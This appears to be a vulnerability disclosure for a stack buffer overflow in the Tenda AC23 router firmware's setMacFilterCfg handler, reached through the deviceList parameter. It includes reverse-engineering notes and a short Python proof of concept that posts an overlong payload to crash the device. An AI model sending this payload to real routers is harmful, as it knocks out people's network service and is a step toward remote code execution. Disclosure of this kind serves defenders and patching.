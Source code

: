 # Tenda AC23_V16.03.07.52 has a stack overflow in /goform/setMacFilterCfg through the parameter deviceList

## Basic Information

Vulnerability manufacturer: Shenzhen Jixiang Tenda Technology Co., Ltd.

Vulnerability level: high risk

Manufacturer's official website: https://www.tenda.com.cn

Affected object type: network equipment

Affected product: Tenda AC23

Affected product version: Tenda AC23_V16.03.07.52

Is it a product component vulnerability: No



## 1. Vulnerability Overview

Tenda AC23 is a wireless router from China's Tenda company.

Tenda AC23 has a buffer overflow vulnerability. The vulnerability is caused by the failure of the parameter deviceList in the file /goform/setMacFilterCfg to correctly verify the length of the input data. Attackers can exploit this vulnerability to execute arbitrary code on the system.

## 2. Vulnerability Details

Ida analyzes the binary file /bin/httpd and can see that the macFIlterType parameter passes through the parameter, while the deviceList parameter has no detection

![image-20250721135828859](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250721135828859.png)

This parameter will eventually be used as the first parameter of sub_46C940 and strcpyed to the stack. Since there is no detection, the attacker can overflow the stack, control the return address or construct a ROP chain getshell

gdb cannot test the offset due to the lack of symbol table. If the offset is tested, getshll can be used to cause greater damage

![image-20250721140039482](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250721140039482.png)

![image-20250721142913640](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250721142913640.png)

POC

```
from pwn import *
import requests

url = "http://192.168.87.135/goform/setMacFilterCfg"

cookie = {"Cookie":"password=12345"}
data = {"macFilterType": "black", "deviceList": b"\r" + cyclic(0x600)}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```



## 3. Impact of the Vulnerability

1. Attackers can exploit this vulnerability to RCE
1. Attackers can exploit this vulnerability to cause service crash

## 4. Repair plan

1. Contact relevant vendors to obtain security patches and fix vulnerabilities in a timely manner
2. Contact relevant security vendors to update security blocking strategies in a timely manner
3. Temporarily perform security checks on interface parameters

‍